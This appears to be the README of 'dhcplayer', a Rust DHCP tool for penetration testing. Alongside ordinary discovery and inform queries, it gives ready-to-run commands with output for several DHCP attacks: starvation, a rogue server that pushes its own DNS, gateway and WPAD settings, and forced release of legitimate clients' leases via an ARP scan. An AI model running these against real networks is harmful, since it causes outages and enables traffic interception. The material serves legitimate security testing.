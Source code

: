 # DHCPlayer

[![Crates.io](https://img.shields.io/crates/v/dhcplayer)](https://crates.io/crates/dhcplayer)
[![Language Rust](https://img.shields.io/badge/Language-Rust-blue)](https://www.rust-lang.org/)


dhcplayer is a tool to perform several actions using the DHCP protocol, both as client or server. It allows you to perform simple DHCP requests but also perform some known attacks like DHCP starvation or setting a sogue DHCP server.


In order to run dhcplayer, you need `root` privileges to be able to create raw sockets.


## Installation

To install:
```
$ cargo install dhcplayer
```

## DHCP Server

You can create a DHCP server with the `server` command. In the server you can use the parameters to configure the following options:

- Available IP Range
- Broadcast Address
- Network Mask
- Router/Gateway IP (by default your IP)
- DNS server IP(s) (by default your IP)
- WPAD file (disabled by default)
- NetBIOS/WINS name server (disabled by default)

```bash
$ sudo dhcplayer server -I eth0 -v --dns 192.168.122.5 --wpad http://wpadserver.local/wpad.dat --netbios 192.168.122.4 --start-ip 192.168.122.60 --end-ip 192.168.122.70
INFO - IP pool: 192.168.122.61-192.168.122.69
INFO - Mask: 255.255.255.0
INFO - Broadcast: 192.168.122.70
INFO - DHCP: 192.168.122.81
INFO - DNS: [192.168.122.5]
INFO - Router: [192.168.122.81]
INFO - Netbios: [192.168.122.4]
INFO - WPAD: http://wpadserver.local/wpad.dat
INFO - DISCOVER from 52:54:00:97:9a:b7
INFO - Offer 192.168.122.69
INFO - REQUEST from 52:54:00:97:9a:b7
INFO - Requested IP 192.168.122.69
INFO - ACK to 192.168.122.69 for 52:54:00:97:9a:b7

```

## Starvation Attack

You can launch a DHCP Starvation attack against DHCP servers by using the `starv` command.

The `starv` command will request all the available IP addresses offered by the DHCP servers in the network. If you want to just target specific servers, you can use the `servers` parameter.

```bash
$ sudo dhcplayer starv -I eth0 --server 192.168.122.1
192.168.122.80 90:25:4f:b0:51:04
192.168.122.118 eb:a3:fd:f4:26:d5
192.168.122.134 c6:f3:bd:ae:d9:ae
...
```

To stop the attack you need to press Ctrl-C. When the attack is stopped, by default, all the acquired IPs will be released. In case you don't want to release them, you can use the `-n/--no-release` flag.


## Discover

The discover command allows you to discover an request the IPs available from a DHCP server.

In the most basic use the command will request an IP from any DHCP server. If you want to request an specific server, you can use the `server` parameter.

```bash
$ sudo dhcplayer discover -I eth0
ACK received from 192.168.122.81
Acquired IP: 192.168.122.67
Client MAC: 52:54:00:97:9a:b7
Options:
[54] DHCP Server ID: 192.168.122.81
[51] IP Address Lease Time: 3600
[58] Renewal Time: 1800
[59] Rebinding Time: 3150
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.70
[3] Router: 192.168.122.81
[6] Domain Server: 192.168.122.5

```

### Discover DHCP servers

Moreover, you can send DISCOVER messages without requesting the IP addresses. You can do this with the `-n/--no-request` flag. In that case, dhcplayer will listen for all the offers made by all the DHCP servers, if there are more than one in the network. 

It can be useful to specify `--options all` to request all the information from a DHCP server.

```bash
$ sudo dhcplayer discover -I eth0 -n --options all

OFFER received from 192.168.122.1
Offered IP: 192.168.122.82
Client MAC: 52:54:00:97:9a:b7
DHCP Server: 192.168.122.1
Options:
[54] DHCP Server ID: 192.168.122.1
[51] IP Address Lease Time: 3600
[58] Renewal Time: 1800
[59] Rebinding Time: 3150
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.255
[3] Router: 192.168.122.1
[6] Domain Server: 192.168.122.1

```

### DNS Dynamic Update

You can ask the DHCP server to create a new DNS A record with the `--dns-update` flag based on the hostname (`-H/--hostname`) or the FQDN (Fully Qualified Domain Name) (`--fqdn`). If you don't specify hostname nor FQDN, the DNS record will be deleted.

The server should return the `server-update` flag in Client FQDN (81) if the update was successful.

```bash
sudo dhcplayer discover -I eth2 --dns-update -H test # Update based on hostname
sudo dhcplayer discover -I eth2 --dns-update --fqdn test.contoso.local # Update based on fqdn
sudo dhcplayer discover -I eth2 --dns-update # Delete DNS record
```

```bash
$ sudo dhcplayer discover -I eth2 --dns-update -H test
ACK received from 0.0.0.0
Acquired IP: 192.168.100.3
Client MAC: 52:54:00:88:80:0c
Options:
[58] Renewal Time: 345600
[59] Rebinding Time: 604800
[51] IP Address Lease Time: 691200
[54] DHCP Server ID: 192.168.100.2
[1] Subnet Mask: 255.255.255.0
[81] Client FQDN: flags: 0x1 (server-update) A-result: 255 PTR-result: 0 
[3] Router: 192.168.100.2
[15] Domain Name: contoso.local
[6] Domain Server: 192.168.100.2

$ nslookup test.contoso.local 192.168.100.2
Server:		192.168.100.2
Address:	192.168.100.2#53

Name:	test.contoso.local
Address: 192.168.100.3

$ sudo dhcplayer discover -I eth2 --dns-update
ACK received from 0.0.0.0
Acquired IP: 192.168.100.3
Client MAC: 52:54:00:88:80:0c
Options:
[58] Renewal Time: 345600
[59] Rebinding Time: 604800
[51] IP Address Lease Time: 691200
[54] DHCP Server ID: 192.168.100.2
[1] Subnet Mask: 255.255.255.0
[81] Client FQDN: flags: 0x1 (server-update) A-result: 255 PTR-result: 0 
[3] Router: 192.168.100.2
[15] Domain Name: contoso.local
[6] Domain Server: 192.168.100.2

$ nslookup test.contoso.local 192.168.100.2
Server:		192.168.100.2
Address:	192.168.100.2#53

** server can't find test.contoso.local: NXDOMAIN
```

### Inform

Additionally, you can send an INFORM petition instead of DISCOVER by using the `-i/--inform` flag of the `discover` command.

```bash
$ sudo dhcplayer discover -I eth0 -i --options wpad,dns --server 192.168.122.1 -v
INFO - INFORM sent - Client MAC 52:54:00:97:9a:b7

ACK received from 192.168.122.1
Acquired IP: 0.0.0.0
Client MAC: 52:54:00:97:9a:b7
Options:
[54] DHCP Server ID: 192.168.122.1
[1] Subnet Mask: 255.255.255.0
[28] Broadcast Address: 192.168.122.255
[6] Domain Server: 192.168.122.1

```

## Release

You can use the release `command` to release IPs that were acquired by you or other peer. For this you need to specify the IP and the MAC address of the client you want to release.

You can specify the pairs IP/MAC with the format `<ip>-<mac>`. You can indicate the pairs in the command line, or pass them through a file or stdin.

```bash
$ sudo dhcplayer release -I eth2 --server 192.168.100.2 192.168.100.5-ca:2b:d1:21:17:86 192.168.100.7-fe:38:4e:46:95:d6 -v
INFO - RELEASE 192.168.100.5 ca:2b:d1:21:17:86
INFO - RELEASE 192.168.100.7 fe:38:4e:46:95:d6
```


You can also combine this command with an ARP scan to release the IPs of legit clients. The release clients probably continue using its IPs, but those are free to be assigned to other peer, which may cause some problems in the network.

```
$ sudo arplayer scan -I eth2 -w 10 | sudo dhcplayer release -I eth2 --server 192.168.100.2 -v
INFO - RELEASE 192.168.100.1 52:54:00:5b:49:5d
INFO - RELEASE 192.168.100.2 52:54:00:0b:75:57
INFO - RELEASE 192.168.100.7 52:54:00:a4:8c:f2
INFO - RELEASE 192.168.100.5 52:54:00:76:87:bb
```



## Disclaimer

Please, don't use this tool for bad things. I won't assume any responsibility for your actions with this tool.
